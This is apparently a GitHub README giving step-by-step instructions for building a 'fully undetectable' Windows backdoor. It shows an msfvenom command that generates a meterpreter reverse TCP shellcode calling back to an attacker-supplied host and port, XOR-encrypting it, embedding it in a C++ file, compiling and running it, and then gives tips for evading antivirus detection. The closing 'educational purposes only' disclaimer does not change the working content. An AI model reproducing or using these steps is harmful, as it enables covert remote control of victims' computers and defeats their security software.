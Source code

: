 # 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

## Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
```

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```
char b[] = /*xor_shellcode*/
```

## Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
https://cutt.ly/BBOXP797

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What is it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!
